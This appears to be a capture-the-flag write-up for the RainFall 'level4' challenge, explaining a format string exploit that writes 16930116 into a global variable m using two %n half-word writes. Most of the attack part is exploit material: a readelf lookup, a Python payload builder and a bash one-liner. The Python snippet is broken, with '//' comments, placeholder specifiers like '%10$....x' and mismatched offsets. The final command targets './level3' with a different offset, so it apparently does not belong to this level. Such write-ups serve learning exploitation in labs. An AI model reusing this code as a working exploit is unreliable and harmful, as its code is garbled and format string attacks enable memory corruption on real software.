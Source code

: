 We see that we have a format string exploit that is vulnerable

However, the value to write to m, the global variable, is `16930116`. This is way bigger than the size of our buffer

Also, printf is called in a function p, which is another scope than where your buffer is located

First let's get the address of m

```console
level4@RainFall:~$ readelf -s level4 | grep m
66: 08049810     4 OBJECT  GLOBAL DEFAULT   25 m
```

## How to write `16930116` at `0x08049810` ??

Address of m:		`0x08049810`						= `\x10\x98\x04\x08`
Address of m + 2:	`0x08049810 + 2`	= `0x08049812`	= `\x12\x98\x04\x08`


### Lets do 2 writes!

`0x5544` = `21828` at `0x08049810` = `\x10\x98\x04\x08`
`0x0102` = `258` at `0x08049810 + 2` = `0x08049812`

value to write in m: `16930116` = `0x01025544`


$10
`%.$value.`: put nb of paddings (whitespace) equal to value

```python
exploit = ""
exploit += "\x10\x98\x04\x08"	//cible 1
exploit += "\x12\x98\x04\x08"	//cible 2
exploit += "%10$21828x"			//value of cible 1 - nb chars written so far
exploit += "%10$n"				//write cible 1 
exploit += "%10$....x"			//value of cible 2 - nb chars written so far
exploit += "%10 + 1$n"				//write cible2
``` 

```bash
(python -c 'print ("\x10\x98\x04\x08" + "|" * 60 + "%4$n")'; cat) | ./level3
```
